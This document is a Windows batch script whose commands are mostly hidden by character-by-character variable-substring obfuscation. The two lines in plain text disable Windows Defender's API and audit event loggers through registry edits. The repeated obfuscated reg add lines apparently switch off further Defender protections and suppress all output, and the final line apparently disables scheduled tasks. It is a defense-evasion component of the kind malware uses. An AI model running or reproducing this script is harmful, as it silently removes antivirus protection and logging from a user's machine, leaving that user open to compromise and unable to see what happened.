%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%-%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~10,1% %维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%-%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~10,1% %维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~35,1%%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~23,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%-%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~10,1% %维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~4,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~49,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~35,1%%维色豆克埃维饿维克爱:~4,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~24,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~23,1%%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~25,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~35,1%%维色豆克埃维饿维克爱:~4,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~35,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "0" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~35,1%%维色豆克埃维饿维克爱:~4,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~45,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "2" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f >nul 2>&1
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderAuditLogger" /v "Start" /t REG_DWORD /d "0" /f >nul 2>&1
%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~23,1%%维色豆克埃维饿维克爱:~49,1% /%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~10,1% /%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~4,1% 